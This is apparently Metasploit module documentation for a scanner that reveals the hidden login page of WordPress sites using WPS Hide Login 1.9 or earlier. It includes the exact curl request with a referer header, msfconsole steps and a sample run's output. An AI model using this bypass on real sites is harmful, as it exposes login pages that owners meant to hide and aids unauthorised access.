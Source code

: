 ## Vulnerable Application

This module exploits a bypass issue with WPS Hide Login version <= 1.9.  WPS Hide Login
is used to make a new secret path to the login page, however a `GET` request to
`/wp-admin/options.php` with a `referer` will reveal the hidden path.

This emulates the following `curl` command: `curl --referer "something" -sIXGET http://<ip>/wp-admin/options.php`

## Verification Steps

1. Install the vulnerable plugin and set a new login page
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_wps_hide_login_revealer`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should find the hidden login page

## Options

## Scenarios

### WPS Hide Login version 1.9.0 on Wordpress 5.4.8 running on Ubuntu 20.04

```
resource (hide_login.rb)> use auxiliary/scanner/http/wp_wps_hide_login_revealer
resource (hide_login.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (hide_login.rb)> set verbose true
verbose => true
resource (hide_login.rb)> run
[*] Checking /wp-content/plugins/wps-hide-login/readme.txt
[*] Found version 1.9 in the plugin
[+] 1.1.1.1 - Vulnerable version detected
[*] 1.1.1.1 - Determining Login Page
[+] Login Page: http://1.1.1.1/supersecret/?redirect_to=%2Fwp-admin%2FilOYZU&reauth=1
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
